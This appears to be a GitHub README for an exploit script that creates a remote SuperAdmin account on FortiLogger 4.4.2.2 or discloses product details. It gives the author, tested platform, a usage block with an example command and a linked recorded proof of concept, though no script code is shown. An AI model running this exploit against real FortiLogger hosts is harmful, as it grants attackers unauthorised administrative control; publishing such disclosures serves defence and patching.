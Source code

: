 
## FortiLogger | Log and Report System - Remote SuperAdmin Account Creation Vulnerability / Information Disclosure

* Date: 30-01-2021
* Exploit Author: Berkan Er <b3rsec@protonmail.com>
* Vendor Homepage: https://www.fortilogger.com/
* Version: 4.4.2.2
* Tested on: Windows 10 Enterprise x64
* A remote attacker can be create an user with SuperAdmin profile 

#### Usage:
```
python3 fortilogger_vuln.py                         

FortiLogger | Log and Report System - v4.4.2.2
Remote SuperAdmin Account Creation Vulnerability / Information Disclosure

Berkan Er <b3rsec@protonmail.com>
@erberkan

Usage:
python3 fortilogger_vuln.py < IP > < PORT > < CREATE USER {TRUE / FALSE} >

IP:	IP Address of FortiLogger host
PORT:	Port number of FortiLogger host
TRUE:	Create User
FALSE:	Show Product Infos

Example: python3 fortilogger_vuln.py 192.168.1.10 5000 TRUE

```

#### POC: 

[![asciicast](https://asciinema.org/a/388155.svg)](https://asciinema.org/a/388155)